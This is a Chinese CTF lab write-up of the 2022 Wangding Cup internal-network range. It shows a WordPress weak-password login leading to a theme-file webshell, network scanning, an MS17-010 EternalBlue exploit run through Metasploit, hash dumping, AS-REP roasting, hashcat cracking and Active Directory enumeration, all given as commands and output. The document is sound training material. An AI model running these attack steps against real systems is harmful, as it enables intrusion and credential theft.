





<span style="font-size: 40px; font-weight: bold;">2022网鼎杯半决赛</span>

<div style="text-align: right;">

date: "2023-08-10"

</div>



靶标介绍：

该靶场为 2022 第三届网鼎杯决赛内网靶场复盘。完成该挑战可以帮助玩家了解内网渗透中的代理转发、内网扫描、信息收集、特权提升以及横向移动技术方法，加强对域环境核心认证机制的理解，以及掌握域环境渗透中一些有趣的技术要点。该靶场共有 4 个 flag，分布于不同的靶机

| 内网地址     | Host or FQDN         | 简要描述                                                 |
| ------------ | -------------------- | -------------------------------------------------------- |
| 172.22.15.26 |                      | 外网 WordPress 服务器                                    |
| 172.22.15.24 | XR-WIN08             | 存在 MS17-010 漏洞；ZDOO 全协同管理平台、phpMyAdmin 服务 |
| 172.22.15.35 | XR-0687.xiaorang.lab | 域用户 lixiuying 对该主机有 Generic Write 权限           |
| 172.22.15.18 | XR-CA.xiaorang.lab   | CA 证书服务器                                            |
| 172.22.15.13 | XR-DC01.xiaorang.lab | 域控制器                                                 |


# Wordpress弱口令

后台弱口令`admin/123456`，后台编辑主题文件拿shell。



webshell路径：`/wp-content/themes/twentytwentyone/index.php`

```shell
/ >cat flag01.txt

________ ___       ________  ________  ________    _____     
|\  _____\\  \     |\   __  \|\   ____\|\   __  \  / __  \    
\ \  \__/\ \  \    \ \  \|\  \ \  \___|\ \  \|\  \|\/_|\  \   
 \ \   __\\ \  \    \ \   __  \ \  \  __\ \  \\\  \|/ \ \  \  
  \ \  \_| \ \  \____\ \  \ \  \ \  \|\  \ \  \\\  \   \ \  \ 
   \ \__\   \ \_______\ \__\ \__\ \_______\ \_______\   \ \__\
    \|__|    \|_______|\|__|\|__|\|_______|\|_______|    \|__|


	flag01: flag{3ea66e28-32fd-4615-ad77-8fbb91656632}
```

Fscan扫描内网

```shell
172.22.15.35:135 open
172.22.15.13:88 open
172.22.15.24:135 open
172.22.15.18:135 open
172.22.15.13:135 open
172.22.15.24:80 open
172.22.15.18:80 open
172.22.15.26:80 open
172.22.15.26:22 open
172.22.15.35:445 open
172.22.15.24:445 open
172.22.15.18:445 open
172.22.15.13:445 open
172.22.15.35:139 open
172.22.15.24:139 open
172.22.15.18:139 open
172.22.15.13:139 open
172.22.15.24:3306 open
[*] NetInfo:
[*]172.22.15.35
   [->]XR-0687
   [->]172.22.15.35
[*] NetInfo:
[*]172.22.15.18
   [->]XR-CA
   [->]172.22.15.18
[*] NetInfo:
[*]172.22.15.13
   [->]XR-DC01
   [->]172.22.15.13
[*] NetInfo:
[*]172.22.15.24
   [->]XR-WIN08
   [->]172.22.15.24
[+] 172.22.15.24	MS17-010	(Windows Server 2008 R2 Enterprise 7601 Service Pack 1)
[*] NetBios: 172.22.15.35    XIAORANG\XR-0687               
[*] NetBios: 172.22.15.13    [+]DC XR-DC01.xiaorang.lab          Windows Server 2016 Standard 14393 
[*] 172.22.15.13  (Windows Server 2016 Standard 14393)
[*] NetBios: 172.22.15.24    WORKGROUP\XR-WIN08                  Windows Server 2008 R2 Enterprise 7601 Service Pack 1 
[*] NetBios: 172.22.15.18    XR-CA.xiaorang.lab                  Windows Server 2016 Standard 14393 
[*] WebTitle: http://172.22.15.26       code:200 len:39962  title:XIAORANG.LAB
[*] WebTitle: http://172.22.15.18       code:200 len:703    title:IIS Windows Server
[*] WebTitle: http://172.22.15.24       code:302 len:0      title:None 跳转url: http://172.22.15.24/www
[+] http://172.22.15.18 poc-yaml-active-directory-certsrv-detect 
[*] WebTitle: http://172.22.15.24/www/sys/index.php code:200 len:135    title:None
```

# MS17-010

```shell
msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/bind_tcp_uuid
payload => windows/x64/meterpreter/bind_tcp_uuid
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 172.22.15.24
rhosts => 172.22.15.24
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] 172.22.15.24:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 172.22.15.24:445      - Host is likely VULNERABLE to MS17-010! - Windows Server 2008 R2 Enterprise 7601 Service Pack 1 x64 (64-bit)
[*] 172.22.15.24:445      - Scanned 1 of 1 hosts (100% complete)
[+] 172.22.15.24:445 - The target is vulnerable.
[*] 172.22.15.24:445 - Connecting to target for exploitation.
[+] 172.22.15.24:445 - Connection established for exploitation.
[+] 172.22.15.24:445 - Target OS selected valid for OS indicated by SMB reply
[*] 172.22.15.24:445 - CORE raw buffer dump (53 bytes)
[*] 172.22.15.24:445 - 0x00000000  57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32  Windows Server 2
[*] 172.22.15.24:445 - 0x00000010  30 30 38 20 52 32 20 45 6e 74 65 72 70 72 69 73  008 R2 Enterpris
[*] 172.22.15.24:445 - 0x00000020  65 20 37 36 30 31 20 53 65 72 76 69 63 65 20 50  e 7601 Service P
[*] 172.22.15.24:445 - 0x00000030  61 63 6b 20 31                                   ack 1           
[+] 172.22.15.24:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 172.22.15.24:445 - Trying exploit with 12 Groom Allocations.
[*] 172.22.15.24:445 - Sending all but last fragment of exploit packet
[*] 172.22.15.24:445 - Starting non-paged pool grooming
[+] 172.22.15.24:445 - Sending SMBv2 buffers
[+] 172.22.15.24:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 172.22.15.24:445 - Sending final SMBv2 buffers.
[*] 172.22.15.24:445 - Sending last fragment of exploit packet!
[*] 172.22.15.24:445 - Receiving response from exploit packet
[+] 172.22.15.24:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 172.22.15.24:445 - Sending egg to corrupted connection.
[*] 172.22.15.24:445 - Triggering free of corrupted buffer.
[*] Started bind TCP handler against 172.22.15.24:4444

[-] 172.22.15.24:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 172.22.15.24:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 172.22.15.24:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 172.22.15.24:445 - Connecting to target for exploitation.
[+] 172.22.15.24:445 - Connection established for exploitation.
[+] 172.22.15.24:445 - Target OS selected valid for OS indicated by SMB reply
[*] 172.22.15.24:445 - CORE raw buffer dump (53 bytes)
[*] 172.22.15.24:445 - 0x00000000  57 69 6e 64 6f 77 73 20 53 65 72 76 65 72 20 32  Windows Server 2
[*] 172.22.15.24:445 - 0x00000010  30 30 38 20 52 32 20 45 6e 74 65 72 70 72 69 73  008 R2 Enterpris
[*] 172.22.15.24:445 - 0x00000020  65 20 37 36 30 31 20 53 65 72 76 69 63 65 20 50  e 7601 Service P
[*] 172.22.15.24:445 - 0x00000030  61 63 6b 20 31                                   ack 1           
[+] 172.22.15.24:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 172.22.15.24:445 - Trying exploit with 17 Groom Allocations.
[*] 172.22.15.24:445 - Sending all but last fragment of exploit packet
[*] 172.22.15.24:445 - Starting non-paged pool grooming
[+] 172.22.15.24:445 - Sending SMBv2 buffers
[+] 172.22.15.24:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 172.22.15.24:445 - Sending final SMBv2 buffers.
[*] 172.22.15.24:445 - Sending last fragment of exploit packet!
[*] 172.22.15.24:445 - Receiving response from exploit packet
[+] 172.22.15.24:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 172.22.15.24:445 - Sending egg to corrupted connection.
[*] 172.22.15.24:445 - Triggering free of corrupted buffer.
[*] Sending stage (200774 bytes) to 172.22.15.24
[*] Meterpreter session 1 opened (192.168.119.120:43268 -> 152.136.43.227:56789) at 2024-01-10 05:31:11 -0500
[+] 172.22.15.24:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 172.22.15.24:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 172.22.15.24:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```

抓取Hash

```shell
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
wdigest credentials
===================

Username   Domain     Password
--------   ------     --------
(null)     (null)     (null)
XR-WIN08$  WORKGROUP  (null)

kerberos credentials
====================

Username   Domain     Password
--------   ------     --------
(null)     (null)     (null)
xr-win08$  WORKGROUP  (null)
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e52d03e9b939997401466a0ec5a9cbc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
meterpreter >  cat "C:\Users\Administrator\flag\flag02.txt"
  __ _              ___  __ 
 / _| |            / _ \/_ |
| |_| | __ _  __ _| | | || |
|  _| |/ _` |/ _` | | | || |
| | | | (_| | (_| | |_| || |
|_| |_|\__,_|\__, |\___/ |_|
              __/ |         
             |___/          


flag02: flag{ba558347-ad3e-41be-9d95-11f2d697b8aa}
```

# ZDOO 全协同管理平台 + phpMyAdmin

当前机器还存在协同管理平台，弱口令admin 123456



以及存在phpmyadmin



连接数据库收集域内账户信息

```plain
lixiuying@xiaorang.lab
jiaxiaoliang@xiaorang.lab
wanglihong@xiaorang.lab
huachunmei@xiaorang.lab
zhangxinyu@xiaorang.lab
huzhigang@xiaorang.lab
lihongxia@xiaorang.lab
wangyulan@xiaorang.lab
chenjianhua@xiaorang.lab
zhangyi@xiaorang.lab
zhangli@xiaorang.lab
zhangwei@xiaorang.lab
liuqiang@xiaorang.lab
wangfang@xiaorang.lab
wangwei@xiaorang.lab
lixiaoliang@xiaorang.lab
wanghao@xiaorang.lab
```

# AS-REP Roasting

```shell
┌──(kali㉿kali)-[~/Desktop/impacket-impacket_0_10_0/build/scripts-3.8]
└─$ proxychains4 -q python3 GetNPUsers.py -no-pass -dc-ip 172.22.15.13 -usersfile /home/kali/Desktop/uname.txt xiaorang.lab/
Impacket v0.10.1.dev1+20230413.195351.6328a9b7 - Copyright 2022 Fortra

$krb5asrep$23$lixiuying@xiaorang.lab@XIAORANG.LAB:b7aee4c0dfbc60d3f273eee8d12acf0b$ae497938de994a5908c88ec454db5abf47b52916accf4da550630a8b87e7ae8213397e41642d31523726290210cb685b4a46a192925a2bc57a406aa2ff13e6010041fa0bef1ddbbabf54e59ce9302285329bc80216ab5ca542851ff24fc4311776c7448dbb0da093142bcbb3e594e3b696ca32eb93b07d61ce18c39df918f9903b8ff34ee58388af6869c90c03b5e4cacfad89685f074268d2739ec701adc9289e1df9956b1b9356e976d4d70e340c4b9486f1caa6ca9d6880422f9f404613b8d678db5c668f8bb97d6009eecfe97e1748e80e174be1d100716213cc4b6a2bef7fc40394d54f8d5271d8b254
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
$krb5asrep$23$huachunmei@xiaorang.lab@XIAORANG.LAB:b1d54fceba811a0d1b3854d046fbf1f8$612779ff99661fbd7f51aafc1a478523af7467de6693c42eedf38dd4238a0372ccb6e6beb2dde17d28429cfadd460daef3f8d153657d9b2b2229d5ac63b75bbcd0cdf0e9e20f8ef677f52ca81a34121cfdd33e724e687234c14b21b8dd3a296c4d46a3d140ec6cf64c8246e7206b5437036f6935fe2bce1076e8b0944038bc26bbcba082f23ff4d7a8177237a3a495052d6df553ed8f7b6dfd5433212f9ab57f027c51d8b4962b2770b681808c29f881996cfdb706f9d1df227aa3424f3d16d08821ec1535c564ad87f1a9b882b240423f9f55f87d6abe48db73f4c5b813d65b6ad7898664b9fdc4a67a49cf
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User lihongxia@xiaorang.lab doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User wangyulan@xiaorang.lab doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User chenjianhua@xiaorang.lab doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```

hashcat解密

```shell
┌──(kali㉿kali)-[~/Desktop]
└─# hashcat -m 18200 hashes.txt /usr/share/wordlists/rockyou.txt --show
$krb5asrep$23$lixiuying@xiaorang.lab@XIAORANG.LAB:dbd1dee4c07eea9541a9f1af91b93180$b4d238908b8d37009f9dfb5402a13f1b60567f4f8185fbbf5c9fbefe14bbe0b1f89980cd604ff68b572afe6af2d1bb4d6720abc8bdc51e47df9da3ebb4801d08f8be90c12343699eff8855dbfc0d63e796ffcec62169fa4e3ee97440ca0eb2eb985e6785f93aa1d34444235b1ce8937acf0121fe05ec2c589ba625fab1c90bd168637124f99378007fa9c459b07f946a65d3c7131cdad16af4b591becc04526125e2c255072df4a32214d393aab5f27cff28b66859c1b9bb06600d4c7a51cd7ae583d4602fd1ebd6ffc269ee60ed861abb28bb547de5e848955d5279d9e08523edb67fbd171d1af1730f2fba:winniethepooh
$krb5asrep$23$huachunmei@xiaorang.lab@XIAORANG.LAB:c640ad4dd669f00b128bad8d1ef8df86$0b8e74c7b36ec7daceb707ce176d18a8d15f8cd3ba3154f8ae4f29e9e54f538ab19bc766ea554698677d7f1e6f9418fd7419d82a1ca79582ed70f3de5b5c771a6e7df373fc84a9921b697e7c7d42c17e85f1b2ae73b1ec15bf1bbc59e20bfb2d4e5e52c53c1e88da9c0815434acd8298948f7becb0f15bfdcce4153d025570249523f7507c20f694f5e0ec23c8e7ef5d446aa5fec15315ab314658fc36befc39d7cdf037fa1f165a83ab257fa34a17c4b512ccca27284b97d8f7bdf51cdb0a069e2df4f952c3c52fa47fb58a0fe4e80d0907062fad92edf4d799306ddb103468accf1c2a6b172f2bd7d7c61d:1qaz2wsx
```

得到域账号密码

| 域账号                  | 密码          |
| ----------------------- | ------------- |
| lixiuying@xiaorang.lab  | winniethepooh |
| huachunmei@xiaorang.lab | 1qaz2wsx      |

# 分析域内环境

工具一



发现lixiuying用户对当前机器有`GenericWrite`权限，意味着可以修改该机器的任何属性，接下来可以通过 RBCD（基于资源的约束委派）进行提权。

工具二

```shell
C:\Users\cy\Desktop>darksteel_windows_386.exe ldap -n xiaorang.lab -d 172.22.15.
13 -u lixiuying -p winniethepooh -a
 ____    ______  ____    __  __   ____    ______  ____    ____    __
/\  _`\ /\  _  \/\  _`\ /\ \/\ \ /\  _`\ /\__  _\/\  _`\ /\  _`\ /\ \
\ \ \/\ \ \ \L\ \ \ \L\ \ \ \/'/'\ \,\L\_\/_/\ \/\ \ \L\_\ \ \L\_\ \ \
 \ \ \ \ \ \  __ \ \ ,  /\ \ , <  \/_\__ \  \ \ \ \ \  _\L\ \  _\L\ \ \  _
  \ \ \_\ \ \ \/\ \ \ \\ \\ \ \\`\  /\ \L\ \ \ \ \ \ \ \L\ \ \ \L\ \ \ \L\ \
   \ \____/\ \_\ \_\ \_\ \_\ \_\ \_\\ `\____\ \ \_\ \ \____/\ \____/\ \____/
    \/___/  \/_/\/_/\/_/\/ /\/_/\/_/ \/_____/  \/_/  \/___/  \/___/  \/___/

   v2.0.0

[*] Domain User:
        Administrator
        Guest
        DefaultAccount
        XR-DC01$
        krbtgt
        XR-0687$
        XR-CA$
        wangxiuzhen
        liyuying
        wangyuying
        zhoumin
        chenmei
        huangmin
        jiangcheng
        huanggang
        machao
        lihongxia
        wangxiuhua
        wangtingting
        liguihua
        lilanying
        liguizhi
        wangyulan
        wangxiuying
        wangshuzhen
        huachunmei
        jiadongmei
        yangguiying
        liguilan
        yuxuecheng
        lixiuying
        zhangxiuying
        wangshuhua
        wangxiulan
        chenjianhua
        tiangui
        tianwen
        tianshengli
        tianlong
Number of users: 39

[*] Domain Admins:
        CN=Administrator,CN=Users,DC=xiaorang,DC=lab

[*] AdminSDHolder:
        Administrator
        krbtgt

[*] sIDHistory:
[*] Enterprise Admins:
        CN=Administrator,CN=Users,DC=xiaorang,DC=lab

[*] OU :
        Domain Controllers

[*] Ca Computer:
        xiaorang-XR-CA-CA

[*] Esc1 vulnerability template:

[*] Esc2 vulnerability template:

[*] MsSql Computer:

[*] Maq Number:
        10

[*] DC Computer:
        XR-DC01

[*] Acl :
        Domain Admins 完全控制 ------> Users
        Domain Admins 完全控制 ------> Guests
        Domain Admins 完全控制 ------> Remote Desktop Users
        Domain Admins 完全控制 ------> Network Configuration Operators
        Domain Admins 完全控制 ------> Performance Monitor Users
        Domain Admins 完全控制 ------> Performance Log Users
        Domain Admins 完全控制 ------> Distributed COM Users
        Domain Admins 完全控制 ------> IIS_IUSRS
        Domain Admins 完全控制 ------> Cryptographic Operators
        Domain Admins 完全控制 ------> Event Log Readers
        Domain Admins 完全控制 ------> Certificate Service DCOM Access
        Domain Admins 完全控制 ------> RDS Remote Access Servers
        Domain Admins 完全控制 ------> RDS Endpoint Servers
        Domain Admins 完全控制 ------> RDS Management Servers
        Domain Admins 完全控制 ------> Hyper-V Administrators
        Domain Admins 完全控制 ------> Access Control Assistance Operators
        Domain Admins 完全控制 ------> Remote Management Users
        Domain Admins 完全控制 ------> System Managed Accounts Group
        Domain Admins 完全控制 ------> Storage Replica Administrators
        Domain Admins 完全控制 ------> Domain Computers
        Domain Admins 完全控制 ------> Cert Publishers
        Domain Admins 完全控制 ------> Domain Users
        Domain Admins 完全控制 ------> Domain Guests
        Domain Admins 完全控制 ------> Group Policy Creator Owners
        Domain Admins 完全控制 ------> RAS and IAS Servers
        Domain Admins 完全控制 ------> Pre-Windows 2000 Compatible Access
        Domain Admins 完全控制 ------> Incoming Forest Trust Builders
        Domain Admins 完全控制 ------> Windows Authorization Access Group
        Domain Admins 完全控制 ------> Terminal Server License Servers
        Domain Admins 完全控制 ------> Allowed RODC Password Replication Group
        Domain Admins 完全控制 ------> Denied RODC Password Replication Group
        Domain Admins 完全控制 ------> Enterprise Read-only Domain Controllers
        Domain Admins 完全控制 ------> Cloneable Domain Controllers
        Domain Admins 完全控制 ------> Protected Users
        Domain Admins 完全控制 ------> Enterprise Key Admins
        Domain Admins 完全控制 ------> DnsAdmins
        Domain Admins 完全控制 ------> DnsUpdateProxy
        Domain Admins 完全控制 ------> Guest
        Domain Admins 完全控制 ------> DefaultAccount
        Domain Admins 完全控制 ------> XR-DC01
        Domain Admins 完全控制 ------> XR-0687
        Domain Admins 完全控制 ------> XR-CA
        Domain Admins 完全控制 ------> wangxiuzhen
        Domain Admins 完全控制 ------> liyuying
        Domain Admins 完全控制 ------> wangyuying
        Domain Admins 完全控制 ------> zhoumin
        Domain Admins 完全控制 ------> chenmei
        Domain Admins 完全控制 ------> huangmin
        Domain Admins 完全控制 ------> jiangcheng
        Domain Admins 完全控制 ------> huanggang
        Domain Admins 完全控制 ------> machao
        Domain Admins 完全控制 ------> lihongxia
        Domain Admins 完全控制 ------> wangxiuhua
        Domain Admins 完全控制 ------> wangtingting
        Domain Admins 完全控制 ------> liguihua
        Domain Admins 完全控制 ------> lilanying
        Domain Admins 完全控制 ------> liguizhi
        Domain Admins 完全控制 ------> wangyulan
        Domain Admins 完全控制 ------> wangxiuying
        Domain Admins 完全控制 ------> wangshuzhen
        Domain Admins 完全控制 ------> huachunmei
        Domain Admins 完全控制 ------> jiadongmei
        Domain Admins 完全控制 ------> yangguiying
        Domain Admins 完全控制 ------> liguilan
        Domain Admins 完全控制 ------> yuxuecheng
        Domain Admins 完全控制 ------> lixiuying
        Domain Admins 完全控制 ------> zhangxiuying
        Domain Admins 完全控制 ------> wangshuhua
        Domain Admins 完全控制 ------> wangxiulan
        Domain Admins 完全控制 ------> chenjianhua
        Domain Admins 完全控制 ------> tiangui
        Domain Admins 完全控制 ------> tianwen
        Domain Admins 完全控制 ------> tianshengli
        Domain Admins 完全控制 ------> tianlong
        lixiuying 将自己添加到 ------> XR-0687

[*] Trust Domain:

[*] Domain Computers:
        XR-DC01
        XR-0687
        XR-CA
Number of computers: 3

[*] Survival Computer:
        XR-DC01 --> Windows Server 2016 Standard
        XR-0687 --> Windows Server 2022 Datacenter
        XR-CA --> Windows Server 2016 Standard

[*] Exchange Servers:

[*] Exchange Trusted Subsystem:

[*] Exchange Organization Management:

[*] Asreproast User:
        huachunmei
        lixiuying

[*] 非约束委派机器：
        CN=XR-DC01,OU=Domain Controllers,DC=xiaorang,DC=lab [XR-DC01]
[*] 非约束委派用户：
[*] 约束委派机器：
[*] 约束委派用户：
[*] 基于资源约束委派：

[*] SPN：CN=XR-DC01,OU=Domain Controllers,DC=xiaorang,DC=lab
        TERMSRV/XR-DC01
        TERMSRV/XR-DC01.xiaorang.lab
        Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/XR-DC01.xiaorang.lab
        ldap/XR-DC01.xiaorang.lab/ForestDnsZones.xiaorang.lab
        ldap/XR-DC01.xiaorang.lab/DomainDnsZones.xiaorang.lab
        DNS/XR-DC01.xiaorang.lab
        GC/XR-DC01.xiaorang.lab/xiaorang.lab
        RestrictedKrbHost/XR-DC01.xiaorang.lab
        RestrictedKrbHost/XR-DC01
        RPC/a3db6787-8536-4529-ae9c-c3a5ec16e556._msdcs.xiaorang.lab
        HOST/XR-DC01/XIAORANG
        HOST/XR-DC01.xiaorang.lab/XIAORANG
        HOST/XR-DC01
        HOST/XR-DC01.xiaorang.lab
        HOST/XR-DC01.xiaorang.lab/xiaorang.lab
        E3514235-4B06-11D1-AB04-00C04FC2DCD2/a3db6787-8536-4529-ae9c-c3a5ec16e55
6/xiaorang.lab
        ldap/XR-DC01/XIAORANG
        ldap/a3db6787-8536-4529-ae9c-c3a5ec16e556._msdcs.xiaorang.lab
        ldap/XR-DC01.xiaorang.lab/XIAORANG
        ldap/XR-DC01
        ldap/XR-DC01.xiaorang.lab
        ldap/XR-DC01.xiaorang.lab/xiaorang.lab

[*] SPN：CN=XR-0687,CN=Computers,DC=xiaorang,DC=lab
        WSMAN/XR-0687
        WSMAN/XR-0687.xiaorang.lab
        TERMSRV/XR-0687
        TERMSRV/XR-0687.xiaorang.lab
        RestrictedKrbHost/XR-0687
        HOST/XR-0687
        RestrictedKrbHost/XR-0687.xiaorang.lab
        HOST/XR-0687.xiaorang.lab

[*] SPN：CN=XR-CA,CN=Computers,DC=xiaorang,DC=lab
        TERMSRV/XR-CA
        TERMSRV/XR-CA.xiaorang.lab
        WSMAN/XR-CA
        WSMAN/XR-CA.xiaorang.lab
